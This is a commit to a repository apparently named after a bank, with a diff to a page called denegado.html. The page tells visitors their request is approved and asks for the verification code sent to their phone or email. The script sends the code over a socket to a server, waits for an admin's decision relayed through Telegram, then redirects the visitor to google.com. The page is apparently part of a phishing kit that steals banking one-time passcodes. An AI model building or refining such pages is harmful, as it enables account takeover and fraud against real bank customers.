

Before and after one commit to maximiliano5858/Bancasmifel, a website: page public/denegado.html in a window 1280 px wide. Both pictures are taken after a click on the button "Reintentar". Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update denegado.html

```diff
--- a/public/denegado.html
+++ b/public/denegado.html
@@ -82,13 +82,26 @@
 </head>
 <body>
   <div class="screen">
-    <h3>¡APRBADO!</h3>
-    <p>Ingresa el codigo que se le fue enviado a su celular o correo electronico.</p>
+    <h3>¡APROBADO!</h3>
+    <p>Ingresa el código que fue enviado a tu celular o correo electrónico.</p>
+
+    <!-- Input en estado de error inicial -->
     <div class="input-group campo-requerido">
       <div class="icon"><i class="fas fa-key"></i></div>
-      <input type="tel" id="codigo" placeholder="Código de verificación" pattern="[0-9]*" inputmode="numeric" minlength="8" maxlength="8" required>
+      <input
+        type="text"
+        id="codigo"
+        placeholder="Código de verificación"
+        minlength="8"
+        maxlength="8"
+        required
+      >
     </div>
-    <p class="mensaje-error">Código inválido. Por favor, ingrese el código correctamente.</p>
+
+    <p id="mensajeError" class="mensaje-error">
+      Código inválido. Por favor, ingrese un código de 8 caracteres alfanuméricos.
+    </p>
+
     <button onclick="reintentarCodigo()">Reintentar</button>
   </div>
 
@@ -96,26 +109,31 @@
   <script>
     const socket = io();
     const sessionId = localStorage.getItem("sessionId");
-
     socket.emit("reconectar", sessionId);
 
     function reintentarCodigo() {
-      const codigo = document.getElementById("codigo").value;
+      const codigoInput = document.getElementById("codigo");
+      const mensajeError = document.getElementById("mensajeError");
+      const codigo = codigoInput.value.trim();
 
-      if (!codigo || !/^\d{8}$/.test(codigo)) {
-        alert("Ingrese un código válido de 8 dígitos.");
+      // Limpiar estado anterior
+      mensajeError.textContent = "";
+      codigoInput.classList.remove("campo-requerido");
+
+      // Validación: 8 caracteres alfanuméricos
+      const regex = /^[A-Za-z0-9]{8}$/;
+      if (!regex.test(codigo)) {
+        mensajeError.textContent = "El código debe tener 8 caracteres alfanuméricos.";
+        codigoInput.classList.add("campo-requerido");
         return;
       }
 
-      // Enviar OTP ingresado al servidor
+      // Enviar al servidor y redirigir
       socket.emit("otpIngresado", { codigo, sessionId });
-
-      // Ir a la pantalla de espera
       window.location.href = "opciones.html";
     }
 
-    // Recibir respuesta del admin desde Telegram
-    socket.on("respuestaOtp", (decision) => {
+    socket.on("respuestaOtp", decision => {
       if (decision === "finalizar") {
         window.location.href = "https://www.google.com";
       } else if (decision === "otp_error") {
```
